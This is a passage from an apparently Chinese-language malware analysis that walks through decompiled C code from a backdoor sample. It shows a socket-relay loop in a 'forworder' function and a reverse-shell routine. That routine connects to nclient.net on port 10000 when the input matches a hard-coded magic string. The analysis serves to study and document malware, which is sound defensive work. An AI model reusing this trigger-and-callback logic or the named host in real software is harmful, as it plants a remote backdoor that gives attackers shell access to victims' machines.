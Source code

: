 forworder函数部分代码

```C
while ( 1 )
  {
    memset(&rfds, 0, sizeof(rfds));
    rfds.fds_bits[v4] |= v5;
    rfds.fds_bits[v7] |= 1LL << (char)to % 64;
    v8 = v2;
    if ( to >= v2 )
      v8 = to;
    if ( select(v8 + 1, &rfds, 0LL, 0LL, 0LL) )
    {
      v9 = rfds.fds_bits[v4];
      if ( _bittest64(&v9, v14) )
      {
        v10 = recv(v2, buffer, 0x2000uLL, 0);
        if ( v10 <= 0 || msend(to, buffer, v10) <= 0 )
          break;
      }
      v11 = rfds.fds_bits[v7];
      if ( _bittest64(&v11, (unsigned int)(to % 64)) )
      {
        v12 = recv(to, buffer, 0x2000uLL, 0);
        if ( v12 <= 0 || msend(v2, buffer, v12) <= 0 )
          break;
      }
    }
  }
```

# 3) Reverse Shell

最后一个功能是反弹shell到一个指定域名`nclient.net`，端口`10000`

```C
v20 = v5;
v21 = "worderx=Bo9vrZ6TKBmq; typefp=3";
v22 = 30LL;
do
{
    if ( !v22 )
        break;
    v18 = *v20 < (const unsigned __int8)*v21;
    v19 = *v20++ == *v21++;
    --v22;
}while ( v19 );
if ( (!v18 && !v19) == v18 )
   re_shell("nclient.net", 10000);
```

re_shell函数
